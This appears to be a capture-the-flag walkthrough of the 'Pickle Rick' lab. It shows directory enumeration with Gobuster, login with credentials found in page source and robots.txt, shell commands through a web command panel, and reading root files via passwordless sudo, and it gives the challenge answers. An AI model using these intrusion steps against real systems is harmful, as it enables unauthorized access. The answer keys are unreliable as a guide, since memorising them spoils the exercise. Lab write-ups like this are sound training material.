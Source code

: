 
# What is the first ingredient that Rick needs?

Navigate to website, plain text with image, Wappalyzer shows Apache 2.4.18, Ubuntu, JQuery and Bootstrap.  No hidden text on screen, viewing the source we can see a username listed as `R1ckRul3s`

Guessed a `/login.php` form, and we get a logon page.  No hidden text, nothing interesting in source

check `/robots.txt` - found `Wubbalubbadubdub`

run Gobuster
`gobuster dir -u $target -w /usr/share/dirb/wordlists/common.txt`
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.163.83
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 291]
/.htaccess            (Status: 403) [Size: 296]
/.htpasswd            (Status: 403) [Size: 296]
/assets               (Status: 301) [Size: 313] [--> http://10.10.163.83/assets/]
/index.html           (Status: 200) [Size: 1062]
/robots.txt           (Status: 200) [Size: 17]
/server-status        (Status: 403) [Size: 300]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

Checked the `/assets` page, this appears to be images used, and the css and js files.

Use the username from the source, and the `Wubbalubbadubdub` as the password on `/login.php`

That allows us to access a portal of sorts
The `commands` tab works, but the others `Potions`, `Creatures`, `Potions`, `Beth Clone Notes` all redirect to `denied.php`

The source of the `portal.php` page has a base64 encoded string.  Decoding this gives a bse64 string.  Decoding this repeatedly tells us this is a `rabbit hole`

Entering the command `whomai` in the commands gives us `www-data` in response.
`pwd` returns `/var/www/html`
`ls` returns
```
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

`cat Sup3rS3cretPickl3Ingred.txt` returns a block message and the fail image from the `/assets` page

Trying to `cat` various files give the same error.

Navigating in the browser to `/clue.txt` returns `Look around the file system for the other ingredient.`

Navigate to `/Sup3rS3cretPickl3Ingred.txt` returns the first ingredient.

Answer: `mr. meeseek hair`

# What is the second ingredient in Rick’s potion?

Using the command from the website, we look in `/home/rick` and we see `second ingredients`

Use the command
`cp "/home/rick/second ingredients" /var/www/html/second.txt` but this didn't seem to work
`cp "/home/rick/second ingredients" /tmp/second.txt` did seem to copy the file to `/tmp/` but still couldn't copy it to the web directories.

`ul < /tmp/second.txt` provided the answer

Answer: `1 jerry tear`

# What is the last and final ingredient?

Run the command `sudo -l` to see what commands we can run with `sudo` and we get `(all) NOPASSWD: ALL` meaning we can sudo without a password all commands.
Lets test it
`sudo ls -la /home/ubuntu/` seems to work
`sudo ls -la /root/` shows a `3rd.txt`
`sudo ul < /root/3rd.txt` didn't run, however `sudo less /root/3rd.txt` did providing the 3rd ingredient

Answer: `fleeb juice`